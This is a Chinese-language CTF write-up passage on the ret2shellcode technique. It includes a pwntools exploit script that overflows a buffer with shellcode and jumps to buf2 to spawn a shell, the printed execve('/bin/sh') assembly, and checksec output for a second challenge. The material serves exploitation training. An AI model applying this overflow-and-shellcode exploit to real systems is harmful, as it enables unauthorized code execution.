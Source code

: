 可以找到 buf2 在 bss 段，用 gdb 查看有可执行权限，可以实现 ret2shellcode

在 gdb 中计算偏移地址，还是 buff 位置到 EBP 的偏移 +4，先填入 shellcode 之后任意字符填充，然后填入 buf2 地址。

```python
# exp.py
from pwn import *

r = process('./ret2shellcode')
sc = asm(shellcraft.sh())
target = 0x804a080
payload = sc + 'a'*(112 - len(sc)) + p32(target)
print payload
r.sendline(payload)
r.interactive()
```

用的 shellcode 是 pwntools 生成的，打印出来：

```assembly
	/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

## sniperoj-pwn100-shellcode

编译的时候用 `gcc -z execstack` 关闭 NX

```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/shellcode'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Partial
```
